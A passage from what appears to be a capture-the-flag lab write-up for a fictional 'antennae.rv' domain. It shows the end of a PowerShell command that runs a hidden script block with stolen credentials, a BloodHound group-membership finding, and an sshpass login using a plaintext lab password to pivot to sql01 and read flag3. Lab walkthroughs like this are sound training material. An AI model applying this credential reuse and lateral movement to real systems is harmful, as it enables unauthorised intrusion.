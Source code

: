 ```
    [ScriptBlock]::Create($scriptBlock.ToString())
) -Credential $creds -Wait -WindowStyle Hidden
```

In `BloodHound`, we'll see that `wei.jie.tan` is also a member of the `senior-developers` group - which means that we can use this user to `SSH` into `sql01.antennae.rv` as well.


![](./assets/img/rv-sept/wjt.png)

We can use these credentials to authenticate to the `SSH` service on `sql01.antennae.rv`, and grab the `flag3.txt` file:

```
~$ sshpass -p 'klDCzcAiLGc2' ssh 'wei.jie.tan'@sql01.antennae.rv

PS C:\Users\wei.jie.tan\Desktop> cat flag3.txt
RV{lA7ERAl_m0vemenT_I5_a1SO_cOoL_3c69d6d47771c7d7671a5bf3c058e326}
```

# Flag 4: Historical Scar

![](./assets/img/rv-sept/4.png)
